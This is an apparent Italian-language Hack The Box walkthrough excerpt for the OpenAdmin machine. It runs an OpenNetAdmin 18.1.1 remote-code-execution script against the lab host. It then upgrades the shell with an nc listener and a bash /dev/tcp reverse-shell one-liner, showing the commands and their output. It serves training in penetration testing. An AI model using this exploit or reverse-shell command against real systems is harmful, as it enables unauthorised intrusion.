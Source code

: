 ```bash
        [+] exploit  : Exploiting the target

```

Andiamo a settare l'exploit 

```
┌──(root㉿kali)-[/home/kali/htb/openadmin/ona-rce]
└─# python3 ona-rce.py exploit http://10.10.10.171/ona/
[*] OpenNetAdmin 18.1.1 - Remote Code Execution
[+] Connecting !
id
[+] Connected Successfully!
sh$ uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh$
```

>[!info] la shell sembra bugguata, non mi fa cambiare la directory ne altro proviamo ad aggirare il problema

ci mettiamo in ascolto con nc

```bash
┌──(root㉿kali)-[/home/kali/htb/openadmin]
└─# nc -lvp 443
listening on [any] 443 ...

```

e dalla shell di prima gli diamo `/bin/bash -c 'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'`

```
┌──(root㉿kali)-[/home/kali/htb/openadmin/ona-rce]
└─# python3 ona-rce.py exploit http://10.10.10.171/ona/
[*] OpenNetAdmin 18.1.1 - Remote Code Execution
[+] Connecting !
id
[+] Connected Successfully!
sh$ uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh$/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.16/443 0>&1'

```

e abbiamo la nostra shell stabile 

```bash
┌──(root㉿kali)-[/home/kali/htb/openadmin]
└─# nc -lvp 443
listening on [any] 443 ...
connect to [10.10.14.16] from openadmin.htb [10.10.10.171] 42352
bash: cannot set terminal process group (1265): Inappropriate ioctl for device
bash: no job control in this shell
www-data@openadmin:/opt/ona/www$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@openadmin:/opt/ona/www$
```
